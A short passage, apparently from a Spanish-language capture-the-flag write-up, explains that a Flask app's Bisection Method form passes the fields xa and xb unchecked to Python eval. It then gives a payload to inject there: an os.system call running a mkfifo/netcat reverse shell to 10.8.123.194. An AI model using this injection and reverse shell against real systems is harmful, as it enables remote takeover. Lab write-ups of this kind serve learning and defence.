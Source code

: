 ![](/assets/images/Devie/image014.png)

![](/assets/images/Devie/image015.png)

Observando el código fuente de la aplicación web, podemos deducir que se ha creado y configurado la aplicación web con Flask. Además, observando el código correspondiente a la funcionalidad Bisection Method, la aplicación utiliza la función eval, que evalúa expresiones y cadenas de caracteres como si fuera código Python, para sumar los valores ingresados en el campo xa y xb. Además, observamos que las entradas que hace el usuario en los campos xa y xb del formulario Bisection Method, se pasan a la función eval sin ningún tipo de verificación o comprobación.

## FASE GANARA ACCESO O EXPLOTACION O HACKING

Ahora aprovecharemos en insertar código malicioso: `__import__('os').system('mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f')` en uno de los campos del formulario Bisection Method para ejecutar una reverse Shell.

